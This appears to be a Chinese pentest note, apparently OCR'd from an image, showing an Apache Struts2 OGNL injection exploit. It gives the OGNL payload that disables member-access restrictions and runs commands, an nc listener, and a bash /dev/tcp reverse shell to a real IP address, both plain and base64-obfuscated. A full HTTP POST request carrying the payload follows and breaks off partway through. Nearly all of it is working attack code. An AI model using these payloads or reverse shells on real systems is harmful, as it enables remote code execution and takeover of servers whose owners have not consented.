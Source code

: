 ```
%{
(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) ==
true).toString().substring(0,0) +
(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) ==
true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))
}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF—
```

## 反弹连接准备工作

阿里云服务器（设置安全组）: 

```
nc -lvvp 7777 
```

https://ir0ny.top/pentest/reverse-encoder-shell.html 

https://ares-x.com/tools/runtime-exec/

```
bash -i >& /dev/tcp/47.120.13.249/7777 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMjAuMTMuMjQ5Lzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}
```



## payload2-反弹连接

```
POST /index.action HTTP/1.1
Host: 47.120.13.249:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=node01c863u8lzu8eyn099a51bjyie0.node0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1191

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id" 

%{
(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
```